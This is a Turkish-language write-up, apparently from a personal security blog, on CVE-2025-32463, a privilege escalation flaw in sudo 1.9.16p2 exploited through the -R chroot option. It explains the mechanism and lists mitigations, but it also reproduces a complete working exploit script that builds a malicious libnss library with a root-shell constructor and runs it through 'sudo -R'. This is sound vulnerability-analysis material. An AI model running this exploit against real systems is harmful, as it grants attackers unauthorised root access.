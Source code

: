 
# Sudo 1.9.16p2 – CVE-2025-32463 Local Privilege Escalation Exploit

## Zafiyet Özeti

Bu write-up'ta, Rich Mirch tarafından yayınlanan `sudo-chwoot.sh` exploit kodunu kullanarak CVE-2025-32463 yerel yetki yükseltme (EoP) zafiyetini istismar ediyoruz. Zafiyet, `sudo`'nun `-R` parametresi (alternatif kök dizin belirleme) kullanılarak bazı güvenlik kontrollerini atlatabilmesinden kaynaklanıyor. Bu durum, bir kullanıcının özel olarak hazırlanmış bir ortamda `libnss` yüklemesini manipüle ederek root yetkili shell elde etmesini mümkün kılıyor.

![](https://github.com/ozcanpng/ozcanpng.github.io/blob/main/images/NVD-2025-32463.png)

---

## Hedef Sistem Özeti

`Dağıtım:` Kali Linux 6.12.25

`Sudo Sürümü:` 1.9.16p2

`Güvenlik Güncellemeleri:` Kapalı

`Kullanıcı Yetkisi:` sudo -R parametresiyle sınırlı sudo erişimi

---

## Exploit Nasıl Çalışıyor?

### 1. `libnss` Manipülasyonu

`sudo` komutu çalıştırılırken, sistem kullanıcı bilgilerini almak için `libnss` (Name Service Switch) kütüphanelerine başvurur. Normalde bu kütüphaneler `/lib/x86_64-linux-gnu/` gibi sistem dizinlerinden yüklenir. Ancak `sudo -R` komutu ile kök dizin değiştirilirse (`chroot` benzeri bir ortam), `libnss` dosyaları belirtilen dizin altından yüklenmeye çalışılır.

### 2. `constructor` ile Yürütme

Exploit, `libnss_woot1337.so.2` adında bir shared object (paylaşımlı nesne) üretir. Bu dosyanın içinde yer alan `constructor` fonksiyonu sayesinde kütüphane yüklendiği anda otomatik olarak çalıştırılır:

```c
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
```

Bu kod, efektif kullanıcı ve grup kimliklerini `0` (root) yaparak, sistem kabuğunu root yetkileriyle başlatır.

### 3. `sudo -R` ile Tuzağa Düşürme

```bash
sudo -R woot woot
```

Bu komut, `woot` dizinini kök (`/`) olarak kabul eder ve orada `libnss_woot1337.so.2` dosyasının bulunduğunu varsayarak onu yüklemeye çalışır. Bu sırada exploit tetiklenir ve kullanıcı doğrudan root shell elde eder.

---

## Exploit Kod Analizi

```bash
#!/bin/bash
# CVE-2025-32463 – Sudo EoP Exploit PoC

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c <<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

---

## Proof of Concept

Script'i çalıştırıyoruz ve ardından shell açılıyor, `id` komutuyla ile root yetkisi doğrulanıyor.

![](https://github.com/ozcanpng/ozcanpng.github.io/blob/main/images/PoC.png)

---

## Teknik Detaylar

- `sudo` çalışırken, kullanıcı bilgilerini almak için `libnss` dosyalarını kök dizinden (`/`) göreceli olarak yükler.
- `-R` bayrağı, bu yolu saldırganın kontrolündeki bir dizine yönlendirerek kendi kütüphanesini yüklemesine olanak tanır.
- Kütüphane yüklenince, içindeki `constructor` kodu tetiklenir.
- Kod, root yetkileriyle kabuk açar ve kullanıcının kontrolünü sisteme verir.

---

## Zafiyetin Giderilmesi

**Güvenlik önlemleri:**

- `sudo` sürümünüzü güncelleyin.
- Kullanıcıların `sudo -R` gibi özel root dizin belirleme yetkilerini kısıtlayın.
- NSS yüklemelerinde dış dizinlere güvenmeyin; sert yol tanımlamaları ve kütüphane doğrulaması uygulayın.

---

## Kaynaklar

- [NVD - CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)
- [Exploit DB Kaydı](https://www.exploit-db.com/exploits/52352)
- [Rich Mirch – GitHub](https://github.com/mirchr/CVE-2025-32463-sudo-chwoot)

---

## Sonuç

Bu zafiyet, sistemin yapılandırma hatalarından faydalanarak root yetkilerinin kolayca alınmasına neden olmaktadır. `libnss` gibi temel sistem bileşenlerinin uygun şekilde yalıtılmaması ve `sudo -R`'nin etkili güvenlik kontrollerine tabi olmaması, bu açığın var olmasına neden olmuştur. Sistem yöneticileri, kullanıcıların yetkilerini dikkatli sınırlandırmalı ve `sudo` yapılandırmalarını düzenli olarak gözden geçirmelidir.
